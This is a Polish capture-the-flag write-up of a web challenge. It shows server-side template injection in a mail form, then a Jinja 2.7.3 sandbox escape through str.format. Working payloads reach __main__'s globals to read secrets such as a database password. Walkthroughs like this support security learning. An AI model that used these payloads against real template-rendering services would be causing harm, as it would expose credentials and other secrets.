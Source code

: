 # Różdżka chaosu, List do sołtysa, web

## Opis
"Szukając właściwego adresu, każdy strudzony kurier prędzej czy później trafi do sołtysa. Skoro nadal z mozołem szukasz różdżki chaosu, może warto napisać wiadomość do administratora gry?"

## Rozwiązanie

Treść zadania sugeruje odwiedzenie skrzynki mailowej. Wchodzimy na stronę i widzimy interesującą informację: "Linki automatycznie zamieniane są na klikalne. Możesz używać poniższych znaczników BBCode oraz dodatkowo struktur kontrolnych Jinja 2.7.3" co może sugerować Server Side Template Injection.

![recon](img/recon.png)

Wysyłając w treści `{{7*'7'}}` ukazuje się nam następujący widok:

![ssti](img/ssti.png)

Czyli mamy tutaj podatność SSTI. Ponownie korzystamy z mechanizmu podglądu kodu źródłowego strony i otrzymujemy:
```py
import jinja2, jinja2.sandbox
import smtplib, ssl
from .exceptions import *
from app import app

def send_mail(receiver, subject, body):
    return render_template(body)

def render_template(body):
    try:
        sandboxed_env = jinja2.sandbox.SandboxedEnvironment()
        template = sandboxed_env.from_string(body).render()
    except (jinja2.TemplateSyntaxError, jinja2.sandbox.SecurityError) as err:
        app.logger.error('Sandbox error:\n' + str(err))
        raise TemplateProblem("Template error")
    return template
```

Jak widzimy, treść maila trafia do Sandboxu, a potem jest renderowana. To czas, żeby poszukać podatności, które pozwolą na wyskoczenie z sandboxu. Po długim researchu natrafiłem na informację, że ta wersja Jinja (2.7.3) jest podatna na Sandbox Escape za pomocą str.format. Spróbujmy tego triku - jako payload podajemy `{{ '{0.__class__.__mro__}'.format('a') }}` i dostajemy w odpowiedzi:

![ssti2](img/ssti2.png)

W planach było wywołanie `__subclasses__()`, ale nie da się wywołać funkcji wewnątrz format stringa :(

Po jeszcze dłuższym researchu trafiłem na artykuł sekuraka: [https://sekurak.pl/podatnosc-server-side-template-injections/](https://sekurak.pl/podatnosc-server-side-template-injections/)
Przytoczony jest tam interesujący payload

```py
{{ "{.func_globals[_mutable_sequence_types][1].insert.__func__.func_globals[sys].modules[__main__].SUPER_SECRET_DB_PASSWORD}".format(range) }}
```

Podczas lokalnych testów [task.py](./task.py) okazało się, że `__func__` nie istnieje w pythonie 3. Dlatego też payload został dostosowany i finalnie wygląda tak:

```py
{{ '{.__globals__[_mutable_sequence_types][1].insert.__globals__[sys].modules[__main__].__dict__}'.format(range) }}
```
co w efekcie daje:

![solve](./img/solve.png)





